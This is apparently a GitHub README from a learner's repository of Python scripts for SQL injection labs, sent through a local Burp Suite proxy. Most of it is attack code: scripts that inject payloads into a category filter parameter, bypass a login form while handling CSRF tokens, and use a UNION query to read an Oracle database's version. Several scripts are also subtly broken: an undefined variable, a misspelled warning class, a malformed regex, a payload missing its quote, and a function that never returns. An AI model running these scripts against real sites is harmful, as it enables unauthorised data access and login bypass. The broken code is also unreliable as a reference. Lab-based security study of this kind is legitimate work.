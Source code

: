 # SQL Injection Labs Repository

This repository contains Python scripts for various SQL injection labs I am working on while learning SQL injection techniques using Burp Suite. Each lab has its own script, and this README will be updated as I progress through the labs.

# Labs Overview

## Lab 1: Basic SQL Injection

- **Description**: This lab demonstrates a basic SQL injection attack by exploiting a vulnerable URL parameter.
- **Script**: `sql_injection1.py`
- **Status**: Completed

```bash

python3 script.py <url> <payload>

import requests
import sys 
import urllib

proxies={'http':"http://127.0.0.1:8080",'https':"https://127.0.0.1:8080"}

def exploit_sql(url,payload):
    uri="/filter?category="
    r=requests.get(url+uri+payload,verify=False,proxies=proxies)
    if "cat grin" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url=sys.argv[1].strip() 
        payload=sys.argv[2].strip()
    except IndexError:
        print("usage is not correct ")
    if exploit_sql(url,payload):
        print(" the sql injection is complete")
    else:
        print("there is error in the sql injection") 
```

## Lab 2: SQL Injection with CSRF Token

- **Description**: This lab demonstrates SQL injection while handling CSRF tokens. It retrieves the CSRF token from the webpage and uses it to attempt a login with an SQL payload.
- **Script**: `sql_injection2.py`
- **Status**: Completed

```bash

python3 python3 labX_script.py <url> <sql_payload>

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies= {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def get_csrf_token(s,url):
    res = s.get(url,verify=False,proxies=proxies)
    soup = BeautifulSoup(res.text,'html.parser')
    csrf=soup.find("input")["value"]
    return csrf

def exploit_sqli(s,url,payload):
    csrf=get_csrf_token(s,url)
    data={"csrf":csrf,"username":payload,"password":"12345678"}
    r=s.post(url,data=data,verify=False,proxies=proxies)
    ras=r.text
    if "log out" in ras:
        return True
    else:
        return False


if __name__== "__main__":
    try:
        url=sys.argv[1].strip()
        sqli_payload=sys.argv[2].strip()
    except IndexError:
        print("use the below bash command on your terminal")
        print("use python3 file.py <url> <sql payload>")
    s=requests.Session()
    if exploit_sqli(s,url,payload):
        print("the sql injetion is successful we have logged in")
    else:
        print("the sql injection is not successful we are not logged in")

```


#### Requirements

- pip install requests beautifulsoup4 urllib3

## Lab 3: SQL Injection with UNION TO IDENTIFY DATA BASE VERSION

- **Description**: This lab demonstrates SQL injection attack against a vulnerable web application to retrieve the version of the Oracle database USING SQL UNION operator.
- **Script**: `sql_injection3.py`
- **Status**: Completed
- **note**: 

    - To use UNION, you must know the number of columns because:
        1. The number and order of the columns must be the same in all queries.
        2. The data types must be compatible.
    - The database is Oracle. In Oracle, after the SELECT statement, the FROM clause must follow when you try to identify the number of columns.

```bash
import sys
import urllib3
import requests
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.INsecureRequestWarning)

proxies={"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def exploit_sqli_version(url):
    path="/filter?catagory=Gifts"
    sql_payload= "UNION select banner,NULL from v$version--"
    r=requests.get(url+path+sql_payload,verify=False,proxies=proxies)
    res=r.text
    if "oracle database" in res:
        print("the sql injection is succesfull")
        soup=BeautifulSoup(r.text,"html.parser")
        version=soup.find(text=re.compile('^.oracle/sDatabase'))
        print(f"the oracle data base version is {version}")


if __name__=="__main__":
    try:
        url=sys.argv[1].strip()
    except: 
        print("input the url")
        sys.exit()
    if exploit_sqli_version(url):
        print("unable to dump the databsse")
```

# Disclaimer

- These scripts are intended for educational purposes only. Use them responsibly and only on applications you own or have explicit permission to test.